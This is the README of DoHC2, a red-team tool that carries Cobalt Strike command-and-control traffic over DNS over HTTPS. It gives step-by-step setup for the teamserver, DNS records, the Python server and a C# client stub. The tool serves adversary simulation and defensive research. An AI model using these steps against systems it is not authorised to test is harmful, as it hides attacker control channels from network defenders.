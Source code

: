 # DoHC2

DoHC2 allows the ExternalC2 library from Ryan Hanson (https://github.com/ryhanson/ExternalC2) to be
leveraged for command and control (C2) via DNS over HTTPS (DoH). This is built for the popular 
Adversary Simulation and Red Team Operations Software Cobalt Strike (https://www.cobaltstrike.com).

## Presentation

This project was released on October 23rd 2018 at [Mitre ATT&CKcon](https://www.mitre.org/attackcon). 

Slides:
[Playing Devil’s Advocate to Security Initiatives with ATT&CK](Mitre_Attackcon_Playing_Devils_Advocate_With_Attack_1.0.pdf)

Blog Article:
[DOH! DNS Over HTTPS Poses Possible Risks to Enterprises](https://www.trustwave.com/Resources/SpiderLabs-Blog/DOH!-DNS-Over-HTTPS-Poses-Possible-Risks-to-Enterprises/)

## Diagram

![Screenshot](dohc2_diagram.png)

## Usage

1. Install and launch Cobaltstrike teamserver.
2. Launch a beacon_http/beacon_https listener - *Gotcha* This can be firewalled off but you need this for External C2 to work.
3. Load in script 'external_c2.cna' to Start ExternalC2 port 2222 (Firewall off).
4. Install dependencies for python3 server.
5. Allow port 53/udp to Internet (or to the DoH provider IP ranges).
6. Create an A record on your domain to point to the teamserver/DNS server IP i.e. [A] entry.example.org -> 000.000.000.000
7. Create an NS record to point to the A record for send channel (INPUTDOMAIN) i.e. [NS] send.example.org -> entry.example.org.
8. Create an NS record to point to the A record for receive channel (OUTPUTDOMAIN) i.e. [NS] receive.example.org -> entry.example.org.
9. Change INPUTDOMAIN and OUTPUTDOMAIN in DoHC2.py. Change encryption key/IV - this is used to encrypt the path from Teamserver-->Client Only (Encrypts Stager). Change max_records from 1 depending on DoH provider, some providers reorder records returned which is not currently handled. Max 5 works well with DNS server.
10. Launch python3 DNS server.
11. Build ExternalC2 library. Change encryption key/IV in DoHChannel.cs to match python3 server. 
12. Configure and launch DoHC2() as below being sure to set INPUTDOMAIN, OUTPUTDOMAIN and a [DoH provider](https://github.com/curl/curl/wiki/DNS-over-HTTPS) in format 'https://resolver.example.org/dns-query'.

## Server

Python DNS server based on [ACME DNS Server](https://github.com/pawitp/acme-dns-server)

* This interfaces raw DNS to the Cobalt Strike Teamserver on 127.0.0.1:2222 by default.
* Change INPUTDOMAIN and OUTPUTDOMAIN to be hosts that are NS of the server's external IP:

```bash
	pip3 install -r requirements.txt
	sudo python3 ./DoHC2.py
```

## Library

[@ryhanson](https://twitter.com/ryhanson)'s [ExternalC2](https://github.com/ryhanson/ExternalC2) with the following additions:
* Channels> DoHChannel.cs - DoH implementation
* Channels > Base32.cs (from https://gist.github.com/BravoTango86/2a085185c3b9bd8383a1f956600e515f)
* DoHC2.cs - DoH channel set-up / wrapper
* Newtonsoft.JSON (https://www.newtonsoft.com/json) is added to project

## Example Client

* As with rest of ExternalC2 DoHC2 is COMVisible for JScript/DotNetToJS but this is a simple example to initiate it.
* The example client DoHC2Runner is a simple C# program to demo loading the library and setting it up as follows:

```csharp
	DoHC2 doh = new DoHC2();
	doh.Configure("<INPUTDOMAIN>","<OUTPUTDOMAIN>","<DoH URI i.e. https://dns.google.com/resolve or https://dns.example.org/dns-query");
	doh.Go();
```


## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## License

DoHC2

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [ExternalC2](https://github.com/ryhanson/ExternalC2)
* [ExternalC2 Spec](https://www.cobaltstrike.com/help-externalc2)
* [ACME DNS Server - (Python Server)](https://github.com/pawitp/acme-dns-server)
* [Python Shared File C2 - (Python Server)](https://github.com/outflanknl/external_c2)
* [Python External_C2_Framework - (Python Server)](https://github.com/Und3rf10w/external_c2_framework)
* [DNSExfiltrator - Python Server](https://github.com/Arno0x/DNSExfiltrator)

## Contributers
* [xinhaojing](https://github.com/xinhaojing) - Server Issue #1
